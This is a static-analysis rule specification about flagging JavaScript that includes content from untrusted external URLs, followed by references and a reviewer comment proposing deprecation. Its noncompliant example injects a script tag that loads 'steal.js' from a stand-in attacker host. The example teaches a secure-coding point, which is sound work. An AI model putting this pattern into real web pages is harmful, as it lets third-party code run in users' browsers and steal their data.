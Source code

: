 == Why is this an issue?

Including content in your site from an untrusted source can expose your users to attackers and even compromise your own site. For that reason, this rule raises an issue for each non-relative URL.


=== Noncompliant code example

[source,javascript]
----
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // Noncompliant
----

== Resources

* https://owasp.org/www-project-top-ten/2017/A1_2017-Injection[OWASP Top 10 2017 Category A1] - Injection
* https://cwe.mitre.org/data/definitions/829[MITRE, CWE-829] - Inclusion of Functionality from Untrusted Control Sphere
* SANS - https://www.sans.org/top25-software-errors/#cat2[Top 25 Software Errors: Risky Resource Management]


ifdef::env-github,rspecator-view[]

'''
== Implementation Specification
(visible only on this page)

=== Message

Remove this content from an untrusted source.


=== Parameters

.domainsToIgnore
****

Comma-delimited list of domains to ignore. Regexes may be used, E.G. (.*\.)?example\.com,foo\.org
****


'''
== Comments And Links
(visible only on this page)

=== deprecates: S1829

=== on 10 Jan 2020, 10:14:47 Eric Therond wrote:
Should be deprecated:

* No compliant solution to propose
* Could be noisy <img src="http://example.com/pic.gif"> or <script src=\http://example.com/jquery.js> is pretty common
* Could be replaced by a more relevant taint analysis rule in the future

endif::env-github,rspecator-view[]

